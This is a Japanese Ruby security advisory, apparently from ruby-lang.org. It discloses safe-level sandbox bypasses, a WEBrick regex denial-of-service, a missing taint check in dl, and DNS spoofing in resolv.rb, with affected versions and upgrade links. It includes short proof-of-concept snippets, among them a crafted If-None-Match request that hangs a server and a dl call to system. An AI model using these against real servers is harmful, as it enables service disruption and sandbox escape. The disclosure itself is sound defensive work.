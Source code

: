 ```yaml
---
layout: news_post
title: "Rubyに複数の脆弱性"
author: "Shugo Maeda"
lang: ja
---
```


Rubyに複数の脆弱性が発見されました。最新バージョンへのアップグレードを推奨します。

## 詳細

以下のような脆弱性が発見されました。

### セーフレベルの脆弱性

セーフレベルにいくつかの脆弱性が発見されました。

* untrace\_varがセーフレベル4で実行可能です。

      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }

      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* $PROGRAM\_NAMEがセーフレベル4で変更可能です。

      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join

      $PROGRAM_NAME #=> "Hello, World!"

* 安全でないメソッドがセーフレベル1〜3で呼び出される可能性があります。

      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # return wrong size
           end
           msg
         end.value
       end
      end

      $SAFE = 1 # or 2, or 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # print string which size is less than 20
      end

* Syslogの操作がセーフレベル4で実行可能です。

      require "syslog"

      Syslog.open

      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

これらの脆弱性は山口慶太さんによって報告されました。

### WEBrickのDoS脆弱性

WEBrick::HTTP::DefaultFileHandlerには、
WEBrick::HTTPUtils.split\_header\_valueの正規表現のバックトラックのため、
リクエストの処理に指数関数的時間を要する欠陥があります。

攻撃可能なサーバの例:

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

攻撃の例:

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

このリクエストの処理は実質的には終了しません。

この脆弱性はChristian Neukirchenさんによって報告されました。

### dlの汚染チェックの欠如
{: #label-3}

dlはオブジェクトの汚染フラグをチェックしないため、攻撃者に危険な関数の実行を許してしまう可能性があります。

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

この脆弱性はsheepmanさんによって報告されました。

### resolv.rbのDNSスプーフィング脆弱性

resolv.rbには、リモートの攻撃者が偽造したDNS問い合わせの返答の受け入れを許す脆弱性があります。
この危険性は問い合わせのトランザクションID とソースポートのランダム化により低減できますが、resolv.rb ではどちらも行っていません。
修正により、それらのランダム化を行うようになります。

* 参考: [CVE-2008-1447][1]

この脆弱性は田中哲さんによって報告されました。

## 脆弱性の存在するバージョン

1.8系
: * 1\.8.5以前の全てのバージョン
  * 1\.8.6-p286以前の全てのバージョン
  * 1\.8.7-p71以前の全てのバージョン

1.9系
: * r18423以前の全てのリビジョン

## 各バージョンでの対応方法

各バージョンでの対応方法を以下に記載します。

1.8系
: 1\.8.6-p287または1.8.7-p72に更新してください。

  * [&lt;URL:https://cache.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz&gt;][2]
  * [&lt;URL:https://cache.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz&gt;][3]

1.9 series

: Subversionで最新版をチェックアウトしてください。

      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

Rubyのパッケージを配布している各ベンダから、この脆弱性を修正した版のパッケージが提供されている場合もあります。詳細については各ベンダにお問い合わせください。

## クレジット

これらの脆弱性は山口慶太さん・Christian Neukirchenさん・sheepmanさん・田中哲さんにより Ruby Security
Teamに報告されました。

## 変更履歴

* 2007-08-08 12:24 +09:00 ruby 1.9のリビジョン番号を修正しました。
* 2007-08-11 11:31 +09:00 ruby 1.8のパッチレベルを修正しました。[Ruby 1.8.7-p72 /
  1.8.6-p287 のリリースアナウンス][4]を参照ください。



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447
[2]: https://cache.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz
[3]: https://cache.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz
[4]: {{ site.url }}/ja/news/2008/08/11/ruby-1-8-7-p72-and-1-8-6-p287-released/
